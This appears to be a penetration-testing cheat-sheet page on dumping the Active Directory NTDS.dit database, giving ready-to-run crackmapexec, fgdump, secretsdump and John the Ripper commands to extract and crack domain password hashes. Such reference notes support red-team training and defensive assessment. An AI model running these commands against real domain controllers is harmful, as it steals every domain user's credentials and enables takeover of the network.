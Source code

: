 # Dumping NTDS.dit

<details>

<summary>What is NTDS.dit ?</summary>

The NTDS file is the **database for Microsoft's Active Directory**. The NTDS file is stored on each domain controller and is created when a Windows server is promoted to domain controller. Its default location is: %SystemRoot%\ntds\NTDS.DIT.

NTDS.dit contains all the info on the domain (hashes...).

</details>

## cme

```bash
# dump ntds on domain controller
cme smb $dc_ip -u $admin_user -p $pass --ntds
```

## FGDump

{% embed url="https://www.softpedia.com/get/Security/Security-Related/fgdump.shtml" %}
FGDump
{% endembed %}

```powershell
.\fgdump.exe
```

## secretsdump

```bash
# when you have the ntds.dit
./secretsdump.py -ntds /root/ntds.dit -system /root/SYSTEM LOCAL
```

## Cracking the hashes

```bash
john --format=NT hash --show
```
